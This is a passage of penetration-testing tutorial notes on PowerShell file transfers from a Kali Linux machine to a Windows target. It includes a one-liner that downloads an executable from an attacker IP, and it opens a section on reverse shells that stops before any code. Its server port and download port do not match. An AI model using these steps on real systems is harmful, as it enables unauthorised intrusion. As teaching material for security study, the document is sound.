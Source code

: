 ### **3.1. PowerShell File Transfers**

We will transfer a file from Kali Linux to Windows using PowerShell

From Kali Linux, we will use python to start up a simple http server

```bash
python -m SimpleHTTPServer 80
```

From Windows, we will use PowerShell to download the file `wget.exe` from the Kali Linux machine

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.190.133:1308/wget.exe','C:\Users\Public\wget.exe')"
```

- `-c`: Execute the supplied command (wrapped in double-quotes) as if it were typed at the PowerShell prompt
- `new-object System.Net.WebClient`: Create a new instance of the System.Net.`WebClient` class. The `WebClient` class is used to access resources identified by a URI and it exposes a public method called `DownloadFile`, which requires our two key parameters: a source location, and a target location where the retrieved data will be stored

![](./img/Chapter4/28.png)

![](./img/Chapter4/29.png)

### **3.2. PowerShell Reverse Shells**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine. The Kali Linux machine will then be able to execute commands on the Windows machine.

